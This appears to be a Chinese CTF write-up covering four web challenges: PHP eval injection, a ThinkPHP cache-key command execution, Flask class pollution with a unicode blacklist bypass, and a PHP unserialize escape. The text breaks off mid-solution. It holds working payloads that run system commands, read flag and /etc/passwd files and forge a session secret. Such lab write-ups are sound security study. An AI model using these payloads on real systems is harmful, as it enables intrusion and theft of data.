# CodeInject

```php
<?php

#Author: h1xa

error_reporting(0);
show_source(__FILE__);

eval("var_dump((Object)$_POST[1]);");
```

这里的话会将传入的内容转化成对象，这里的话尝试闭合就行

```
1=1);phpinfo();#
```



```
1=1);system("cat /000f1ag.txt");#
```

# tpdoor

页面提示缓存被禁用

这图标是tp的，先审一下源码吧

```php
<?php

namespace app\controller;

use app\BaseController;
use think\facade\Db;

class Index extends BaseController
{
    protected $middleware = ['think\middleware\AllowCrossDomain','think\middleware\CheckRequestCache','think\middleware\LoadLangPack','think\middleware\SessionInit'];
    public function index($isCache = false , $cacheTime = 3600)
    {
        
        if($isCache == true){
            $config = require  __DIR__.'/../../config/route.php';
            $config['request_cache_key'] = $isCache;
            $config['request_cache_expire'] = intval($cacheTime);
            $config['request_cache_except'] = [];
            file_put_contents(__DIR__.'/../../config/route.php', '<?php return '. var_export($config, true). ';');
            return 'cache is enabled';
        }else{
            return 'Welcome ,cache is disabled';
        }
    }


}
```

说实话这个源码给的不全，得自己去翻官方手册了

CheckRequestCache是thinkphp框架中的一个中间件，负责处理请求缓存的，主要功能是在用户请求时检查是否有可用的缓存，如果缓存可用则直接返回缓存内容，从而避免重新处理请求，提升性能。



然后我们看下有请求缓存



可以看到在源码中我们的参数$isCache = false，也就是说此时是关闭请求缓存的

先报错看一下tp的版本



然后我们把源码下下来看下



然后我们发现



这里的话getRequestCache会返回request_cache_key,我们跟进一下这个方法的使用



这里可以看到，在将`$cache`赋值后，key会传入parseCacheKey函数中刷新key

```php
protected function parseCacheKey($request, $key)
    {
        if ($key instanceof Closure) {
            $key = call_user_func($key, $request);
        }

        if (false === $key) {
            // 关闭当前缓存
            return;
        }

        if (true === $key) {
            // 自动缓存功能
            $key = '__URL__';
        } elseif (str_contains($key, '|')) {
            [$key, $fun] = explode('|', $key);
        }

        // 特殊规则替换
        if (str_contains($key, '__')) {
            $key = str_replace(['__CONTROLLER__', '__ACTION__', '__URL__'], [$request->controller(), $request->action(), md5($request->url(true))], $key);
        }

        if (str_contains($key, ':')) {
            $param = $request->param();

            foreach ($param as $item => $val) {
                if (is_string($val) && str_contains($key, ':' . $item)) {
                    $key = str_replace(':' . $item, (string) $val, $key);
                }
            }
        } elseif (str_contains($key, ']')) {
            if ('[' . $request->ext() . ']' == $key) {
                // 缓存某个后缀的请求
                $key = md5($request->url());
            } else {
                return;
            }
        }

        if (isset($fun)) {
            $key = $fun($key);
        }

        return $key;
    }
}

```

仔细看可以发现两个关键点

```php
if (true === $key) {
            // 自动缓存功能
            $key = '__URL__';
        } elseif (str_contains($key, '|')) {
            [$key, $fun] = explode('|', $key);
        }
```

这里的话只要key中有管道符`|`，那么就会以`|`为分隔符将key分为key和fun两部分

```php
if (isset($fun)) {
            $key = $fun($key);
        }
```

然后这里的话会调用`$fun($key)`函数,所以如果key可控，我们就可以实现任意代码执行

我们看看key是怎么来的



`$key`是从`$config['request_cache_key']`中获取的，我们返回来看题

```php
if($isCache == true){
            $config = require  __DIR__.'/../../config/route.php';
            $config['request_cache_key'] = $isCache;
            $config['request_cache_expire'] = intval($cacheTime);
            $config['request_cache_except'] = [];
            file_put_contents(__DIR__.'/../../config/route.php', '<?php return '. var_export($config, true). ';');
            return 'cache is enabled';
```

因为这里isCache是弱比较，所以我们可以传参`isCache`给../../config/route.php写入`$config['request_cache_key']`

payload

```
?isCache=ls|system
```

然后访问根目录发现并没变化，想起index.php有个缓存时间，看到有师傅说将cacheTime设置为3

```
?isCache=ls%20/|system&cacheTime=3
```

但是我设置之后并没成功，可能环境不一样吧，我只能重新开个靶场了

```
?isCache=cat%20/000*|system
```

# easy_polluted

先看看源码吧

```python
from flask import Flask, session, redirect, url_for,request,render_template
import os
import hashlib
import json
import re
def generate_random_md5():
    random_string = os.urandom(16)
    md5_hash = hashlib.md5(random_string)

    return md5_hash.hexdigest()
def filter(user_input):
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']
    for pattern in blacklisted_patterns:
        if re.search(pattern, user_input, re.IGNORECASE):
            return True
    return False
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


app = Flask(__name__)
app.secret_key = generate_random_md5()

class evil():
    def __init__(self):
        pass

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    Evil = evil()
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"
    return render_template("index.html")

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

```

分成几部分去分析一下

```python
def generate_random_md5():
    random_string = os.urandom(16)
    md5_hash = hashlib.md5(random_string)

    return md5_hash.hexdigest()
```

生成一个16字节的随机字节串，并进行md5哈希计算，并将哈希值转化成16进制字符串后返回

```python
def filter(user_input):
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']
    for pattern in blacklisted_patterns:
        if re.search(pattern, user_input, re.IGNORECASE):
            return True
    return False
```

一个过滤器，匹配黑名单的字符，匹配到则返回true，否则返回False

```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

就是merge函数，也是污染的关键点

```python
app.secret_key = generate_random_md5()
#随机生成key
```

```python
class evil():
    def __init__(self):
        pass
```

设置一个evil类和构造方法`__init__`

```python
@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    Evil = evil()
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"
    return render_template("index.html")
```

post获取username和password两参数，并设为session，之后对传入的原始数据进行一个filter过滤，若返回true则返回过滤提示，否则进行渲染返回index.html

```python
@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'
```

从session中获取username和password的值，若两者存在且username为adminer，password为key密钥，就返回flag.html渲染的页面并返回flag的内容

其实这里显而易见了，是需要污染key的值，然后我们就可以拿到密码去进行验证，从而拿到flag，看看merge函数的用法



所以我们的payload

```
{"__init__":{"__globals__":{"app":{"secret_key":"123"}}}}
```

本地测试一下

```python
from flask import Flask, session, redirect, url_for,request,render_template
import os
import hashlib
import re
def generate_random_md5():
    random_string = os.urandom(16)
    md5_hash = hashlib.md5(random_string)

    return md5_hash.hexdigest()
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
app = Flask(__name__)
app.secret_key = generate_random_md5()

class evil():
    def __init__(self):
        pass
payload = {
    "__init__" :
        {
            "__globals__" :
                {
                    "app" :
                        {
                            "secret_key" : "123"
                        }
                }
        }
}
Evil = evil()
merge(payload, Evil)
print(app.secret_key)
```

但是有黑名单过滤，因为这里有json.loads，我们用unicode编码去绕过

本地测试一下

```python
import json
data = '{"word":"hello \u0077\u006f\u0072\u006c\u0064"}'
data_plus = json.loads(data)
print(data_plus)
#{'word': 'hello world'}
```

发现unicode编码在load之后也会进行解码

那我们正常打就行

payload

```
{"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f":{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f":{"\u0061\u0070\u0070":{"\u0073\u0065\u0063\u0072\u0065\u0074\u005f\u006b\u0065\u0079":"123456"}}}}
```

发包



然后我们post传入

```
username=adminer&password=123
```

之后返回session

```
session=eyJwYXNzd29yZCI6IjEyMyIsInVzZXJuYW1lIjoiYWRtaW5lciJ9.aCRlpw.2IVc7AGVg1ZBHbqs10Pqyks7MUs
```

访问/admin路由设置session



但是发现好像没有flag

这里的话是需要输出flag，但是`[##]`不是常规语法标识符

但是我们这里的话是可以自定义标识符的



*variable_start_string*和*variable_end_string*表示变量的开始和结束标识符，例如`{{`和`}}`，所以这里我们需要污染这个属性的值和key

payload

```python
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "secret_key":"12345",
                "jinja_env":{
                    "variable_start_string":"[#",
                    "variable_end_string":"#]"
                }
            }
        }
    }
}


```

编码一下

```
payload={
    "\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F":{
        "\u005F\u005F\u0067\u006C\u006F\u0062\u0061\u006C\u0073\u005F\u005F":{
            "\u0061\u0070\u0070":{
                "\u0073\u0065\u0063\u0072\u0065\u0074\u005f\u006b\u0065\u0079":"12345",
                "\u006a\u0069\u006e\u006a\u0061\u005f\u0065\u006e\u0076":{
                    "\u0076\u0061\u0072\u0069\u0061\u0062\u006c\u0065\u005f\u0073\u0074\u0061\u0072\u0074\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"[#",
                    "\u0076\u0061\u0072\u0069\u0061\u0062\u006c\u0065\u005f\u0065\u006e\u0064\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"#]"
                }
            }
        }
    }
}
```

污染后还是之前一样的

# Ezzz_php

```php
<?php 
highlight_file(__FILE__);
error_reporting(0);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}
class read_file{
    public $start;
    public $filename="/etc/passwd";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
           echo 'What you are reading is:'.file_get_contents($this->filename);
        }
    }
}
if(isset($_GET['start'])){
    $readfile = new read_file($_GET['start']);
    $read=isset($_GET['read'])?$_GET['read']:"I_want_to_Read_flag";
    if(preg_match("/\[|\]/i", $_GET['read'])){
        die("NONONO!!!");
    }
    $ctf = substrstr($read."[".serialize($readfile)."]");
    unserialize($ctf);
}else{
    echo "Start_Funny_CTF!!!";
} Start_Funny_CTF!!!
```

审代码

```php
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}
```

分别找出`[`和`]`在字符串中的位置，并从字符串 `$data` 中提取出位于 `[` 和 `]` 之间的子字符串。

```php
class read_file{
    public $start;
    public $filename="/etc/passwd";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
           echo 'What you are reading is:'.file_get_contents($this->filename);
        }
    }
}
```

一个读文件的类

```php
if(isset($_GET['start'])){
    $readfile = new read_file($_GET['start']);
    $read=isset($_GET['read'])?$_GET['read']:"I_want_to_Read_flag";
    if(preg_match("/\[|\]/i", $_GET['read'])){
        die("NONONO!!!");
    }
    $ctf = substrstr($read."[".serialize($readfile)."]");
    unserialize($ctf);
}else{
    echo "Start_Funny_CTF!!!";
}
```

外层需要传入一个start，我们传入`?start=gxngxngxn`就可以拿到`/etc/passwd`的信息

然后需要传入一个read，关键在于这个代码

```php
$ctf = substrstr($read."[".serialize($readfile)."]");
```

这里的话因为substrstr函数中只会返回`[`和`]`之间的字符，所以得想办法逃逸字符

本地一点点测试吧

```php
<?php
class read_file{
    public $start="gxngxngxn";
    public $filename="/etc/passwd";
}
$readfile = new read_file();
echo serialize($readfile)."\n";
echo strlen(serialize($readfile));
//O:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:11:"/etc/passwd";}
//82
```

这是我们原始的字符串，长度为82

然后我们本地搭一个环境





可以看到传入一个%9f的时候，在substrstr函数判断的时候出现了错误，每传入一个%9f就会将字符串的结果往后推一个，%9f并没有被当成是正常的字符去处理，所以我们传入84个%9f试一下

